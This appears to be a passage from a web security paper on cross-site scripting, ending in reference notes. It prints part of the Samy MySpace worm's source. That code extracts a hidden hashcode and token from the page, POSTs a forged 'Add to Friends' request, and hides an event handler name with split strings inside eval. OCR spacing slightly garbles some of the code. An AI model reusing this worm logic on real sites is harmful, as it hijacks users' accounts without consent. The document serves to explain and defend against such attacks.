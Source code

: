 ```
function processx - Form() {
    if (xmlhttp2.readyState != 4) {
        return
    }
    var AU = xmlhttp2.responseText;
    var AQ = getHiddenParameter(AU, 'hashcode');
    var AR = getFromURL(AU, 'Mytoken');
    var AS = new Array();
    AS['hashcode'] = AQ;
    AS['friendID'] = '11851658';
    AS['submit'] = 'Add to Friends';
    httpSend2(' / index.cfm ? fuseaction = invite.addFriendsProcess & Mytoken = ' + AR,
        nothing, 'POST', paramsToString(AS))
}
function httpSend2(BH, BI, BJ, BK) {
    if (!xmlhttp2) {
        return false
    }
    eval('xmlhttp2.onr' + 'eadystatechange = BI');
    xmlhttp2.open(BJ, BH, true);
    if (BJ == 'POST') {
        xmlhttp2.setRequestHeader('Content - Type', 'application / x - www - form - urlencoded'); xmlhttp2.setRequestHeader('Content - Length', BK.length)
    }
    xmlhttp2.send(BK); return true
}
”></DIV>
```

# Notes

1.  The Samy Worm “I’ll never get caught. I’m Popular.” – [http://namb.la/popular/](http://namb.la/popular/)

2.  Cross-site Scripting (Web Security Threat Classification) – [http://www.webappsec.org/projects/threat/classes/cross-](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml) [](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml) [site_scripting.shtml](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml)

3.  Teen uses worm to boost ratings on MySpace.com, Computerworld, October 17, 2005 – [http://www.computerworld.com/securitytopics/security/holes/story/0,10801,105484,00.html](http://www.computerworld.com/securitytopics/security/holes/story/0%2C10801%2C105484%2C00.html)

4.  Do Online Banks Facilitate Fraud?, TheMotleyFool.com, December 8, 2004 – [http://www.fool.com/News/mft/2004/mft04120810.htm](http://www.fool.com/News/mft/2004/mft04120810.htm)

5.  Phishing with Superbait, Silicon Valley Chapter (San Jose), April, 2005 – [http://www.whitehatsec.com/presentations/phishing_superbait.pdf](http://www.whitehatsec.com/presentations/phishing_superbait.pdf)

6.  Content Restrictions – [http://www.gerv.net/security/content-restrictions/](http://www.gerv.net/security/content-restrictions/)
